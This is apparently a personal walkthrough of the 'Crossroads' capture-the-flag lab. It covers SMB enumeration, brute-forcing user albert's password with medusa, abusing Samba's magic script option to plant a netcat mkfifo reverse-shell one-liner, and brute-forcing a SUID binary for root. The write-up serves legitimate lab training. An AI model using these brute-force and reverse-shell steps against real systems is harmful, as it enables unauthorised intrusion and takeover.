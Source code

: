 # Crossroad (Creatigon Basic Pentest)

---

- crossroad is Eric Clapton's song which is one of my favorite. Does this title come from this?

## Enumeration

- Nmap Initial

```
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: CROSSROADS
```

- http and samba
- Let explore

### http

- /robots.txt -> crossroads.png
- directory fuzzing -> nothing special found
- get the crossroads.png file

### samba

```sh
smbmap -H $IP
```

- found 3 directories with no access

```sh
$ enum4linux $IP
CROSSROADS\nobody (Local User)
CROSSROADS\None (Domain Group)
CROSSROADS\albert (Local User)
```

- user albert found and brute force password

```sh
$ medusa -h $IP -u albert -P rockyou.txt -M smbnt
# User: albert Password: bradley1
```

- check smbmap with albert user

```sh
└─$ smbmap -u albert -p 'bradley1' -H $IP
[+] IP: 10.0.2.17:445   Name: 10.0.2.17
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        smbshare                                                READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
        albert                                                  READ ONLY       Home Directories
```

- enter smb share with albert user with password bardley1
- found 4 files
  - beroot -> exeuctable file
  - crossroads.png -> image file
  - smb.conf -> smbconfiguration file
  - user.txt -> flag for ctf
- images get from web and smb has different file sizes, former is 1.1 Mb and later 1.6 Mb and something may be hidden inside image
- TODO -> check the crossroads.png file

- In smb.conf,

```
[smbshare]

path = /home/albert/smbshare
valid users = albert
browsable = yes
writable = yes
read only = no
magic script = smbscript.sh
guest ok = no
```

- magic script is running with name `smbscript.sh`
- create smbscript.sh with nc reverse shell and put it inside smb share for albert to get reverse shell
- listen with nc at the attacker machine and write
- smbscript.sh

```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $UR_IP $PORT >/tmp/f
```

- enter smb share at smbshare folder with user albert and put smbscript.sh
- (Note - enter only at /smbshare, if not, the payload can't be uploaded)
- get linpeas.sh file and run it.
- nothing special found except

```
-rwsr-xr-x 1 root root 17K Mar  2  2021 /home/albert/beroot (Unknown SUID binary!)
```

- beroot binary which is downloaded before
- check this binary

```sh
albert@crossroads:/home/albert$ ./beroot
./beroot
TERM environment variable not set.
enter password for root
-----------------------

abc
wrong password!!!
```

- inside own terminal

```
$ ./beroot
/bin/bash: /root/beroot.sh: Permission denied
```

- need to find password

```sh
$ stegoveritas crossroads.png
```

- found two text files inside results/keepers
- remove null bytes from one text file and use as pwds.txt
- use that words as passwords
- copy the pwds.txt file into albert's shell

```sh
for pwd in $(cat pwds.txt); do echo $pwd | ./beroot; done
```

- then rootcreds file appears and cat rootcreds will give the password for root
- enter root with that password `su root`.

---
